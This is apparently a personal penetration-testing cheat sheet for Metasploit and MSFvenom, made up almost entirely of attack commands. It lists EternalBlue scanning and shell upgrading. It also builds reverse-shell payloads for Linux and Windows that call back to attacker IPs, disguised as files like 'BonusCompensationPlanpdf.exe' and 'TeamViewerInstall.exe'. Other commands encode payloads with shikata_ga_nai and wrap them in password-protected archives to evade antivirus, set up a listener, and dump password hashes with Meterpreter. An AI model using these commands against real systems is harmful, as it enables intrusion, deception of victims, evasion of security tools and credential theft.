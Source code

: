 targeturi = blog

# Metasploit
- `use auxiliary/scanner/smb/smb_ms17_010` (EternalBlue)
 
## Interact With the Shell
```
shell
python -c 'import pty; pty.spawn("/bin/sh")' 
```

## Search
- `search -f "flag.txt"`

# MSFvenom
- `msfvenom -l payloads`

## Building A Stageless Payload
- `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

## Building a simple Stageless Payload for a Windows system
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`

## Selecting an Encoder
### Generating Payload
- `msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`

### Generating Payload - Without Encoding
- `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`

### Generating Payload - With Encoding
- `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`

- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe`

## Evasion Techniques
- `msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5`

```
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
rar a ~/test.rar -p ~/test.js
```

```
mv test.rar test
rar a test2.rar -p test
mv test2.rar test2
```

## Setting Up Multi/Handler
- `use multi/handler`

# Meterpreter
- `getuid`
- `hashdump`
- `search local exploit suggester`